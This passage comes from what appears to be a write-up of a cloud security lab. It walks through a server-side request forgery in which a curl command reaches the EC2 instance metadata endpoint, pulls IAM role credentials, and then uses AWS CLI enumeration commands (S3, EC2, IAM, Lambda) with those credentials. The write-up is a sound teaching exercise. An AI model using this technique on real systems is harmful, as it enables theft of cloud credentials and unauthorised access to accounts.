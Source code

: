 
Knowing we can talk to the meta data endpoint lets see if we can pull the credentials off of this ec2 instance. We can accomplish this with the following command:

```bash
curl http://ec2-34-229-224-250.compute-1.amazonaws.com/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-cgidheuaifn6y6
```

The server responds with everything we need to impersonate this instance and dig deeper into aws.

![ec2 credentials](images/ec2-creds.png "img-fluid")

*It's worth mentioning, while we jumped straight to pulling creds from this instance the user-data endpoint can hold very valuable information.*

Using the credentials from the instance we can run the get get-caller-identity command and make sure they are valid. We get the output below:

![ec2 whoami](images/ec2-whoami.png "img-fluid")

Once again, as we do with any new set of credentials, let's see what all we can do with them.

```bash
aws --profile ec2 s3 ls
aws --profile ec2 ec2 describe-instances
aws --profile ec2 iam list-roles
aws --profile ec2 lambda list-functions
```

Much like our previous enumeration attempts, everything failed except for one call. In this case the s3 ls command was successful and we get the name for every bucket in the account:

![s3 ls](images/s3-ls.png "img-fluid")
